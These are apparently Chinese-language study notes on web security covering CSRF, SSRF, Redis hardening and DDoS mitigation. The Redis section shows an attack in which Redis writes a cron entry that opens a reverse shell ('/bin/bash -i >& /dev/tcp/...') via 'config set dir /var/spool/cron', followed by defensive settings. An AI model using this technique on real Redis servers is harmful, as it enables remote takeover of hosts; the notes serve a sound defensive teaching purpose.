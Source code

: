 > **如何防止CSRF攻击**

只能增加我们校验的强度，我们个人要提高防范意识，只去安全的页面(加短信验证码)

> **SSRF服务端请求伪造**

A（图片在B服务上），A从B服务上拿取图片资源，如果黑客将B替换成自己的URL，你的A-->访问C（黑客替换URL），这个时候A的所有可信请求都被C获取

这是就是SSRF实现的过程，就是我们常说的：内网穿透

- 内网探测
- 文件读取

**SSRF防护如何做？**

- 白名单机制永远是最简单最高效的防护措施

### Redis安全

Redis的设计初衷就是在一个可信的环境下进行KV数据的服务的，Redis在设计的时候就没有过多考虑安全性，可以说他可以的牺牲了一定的安全性来提升更高的性能

在安全性不高的情况下，可以直接连入Redis，可以通过flushdb，flushall，可以通过相应的命令将清空缓存的命令禁用或重命名

可以通过Redis作为跳板，通过Redis在服务器上执行Linux服务器相关的命令

```shell
# 设置一个kv的键值
set abc */1 * * * * /bin/bash -i >& /dev/tcp/192.168.1.110>&1
# 利用redis的持久化机制来实现跳板
config set dir /var/spool/cron
# crontab对于无法解析的脚本直接跳过
crontab执行了redis持久化中你自己定义的value值了
```

如何将Redis的漏洞进行弥补

- requirepass redis-123-pwd
- Redis系统层级的命令一定要提前rename或将其注销

```shell
rename-command CONFIG "" # 注销命令
rename-command CONFIG "REDIS-CONFIG" # 将config重命名为redis-config
rename-command FLUSHDB ""
rename-command FLUSHALL ""
```

- <font color=red>尽量避免使用root用户来启动redis（最小权限原则）</font>

  

# 3. DDoS攻击

拒绝服务攻击，非常损人不利己的方式

DDoS能对内网造成非常严重的影响，如何防护？目前来说，DDoS基本是不可防的，如果从服务端去做处理，识别到了无效访问，也只是避免CPU被耗尽，但带宽还是会被占用

所以DDoS的有效防御，一般放在DNS服务这一层通过云厂商来解决，基本都是依靠增加带宽来进行保障，第二个需要通过DNS过滤服务将无效的请求识别，或已经加入黑名单的IP直接弹回

cloudflare.com 专门处理DDoS服务攻击处理的，akamai.com 也是专门处理DDoS攻击（域名解析就要指向这些服务了）

如果依旧把这些请求放进来，可以使用Nginx来做第一层的403的拒绝服务，接下来就将IP请求的频次进行限流控制，注意返回的错误页面去到网站纯静态首页（防误杀，该静态页提前缓存到CDN节点上），也可以通过Redis+Lua脚本来实现（key:ip，value:timestamp，expire:150ms）先get有没有，如果有就直接跳到403防误杀的页面，如果没有就set值